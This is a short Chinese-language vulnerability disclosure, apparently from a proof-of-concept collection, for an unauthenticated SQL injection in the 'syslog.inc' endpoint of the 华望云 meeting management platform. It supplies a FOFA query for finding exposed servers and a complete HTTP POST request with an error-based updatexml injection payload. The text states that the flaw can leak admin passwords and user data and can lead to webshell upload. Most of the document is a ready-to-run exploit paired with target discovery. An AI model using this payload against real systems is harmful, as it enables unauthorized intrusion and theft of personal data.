 # 华望云会议管理平台syslog.inc存在SQL注入漏洞

华望云会议管理平台 `syslog.inc` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
POST /page/syslog.inc?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&params[]=displayName&params[]=module&params[]=act&params[]=ip&selectTime=1 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```

